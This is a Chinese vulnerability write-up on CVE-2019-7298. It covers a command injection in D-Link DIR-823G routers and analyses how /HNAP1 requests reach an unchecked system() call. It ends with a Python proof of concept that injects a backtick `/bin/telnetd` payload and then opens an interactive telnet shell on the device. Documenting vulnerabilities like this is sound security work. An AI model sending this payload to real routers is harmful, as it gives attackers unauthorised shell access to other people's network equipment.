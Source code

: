```yaml
---
title: "（CVE-2019-7298）D-Link DIR-823G 命令注入漏洞"
id: zhfly3383
---
```


# （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS 
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0); 
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL. 
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c

![image](../img/ac3173a68d6b7133622fa05b83fb6c7c.png)

`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。

![image](../img/9ac68ea9df14ae0a26804f01d05202c0.png)

![image](../img/1148128a8fbfb6e68e624d3e372824af.png)

另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog 
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog 
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

command ="’`/bin/telnetd`’"

length = len(command)

headers = requests.utils.default_headers()

headers[“Content-Length”]=str(length)

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/Login](http://purenetworks.com/HNAP1/Login)”’#此处的Login可以替换为任何在function_list中的函数名

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = command

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```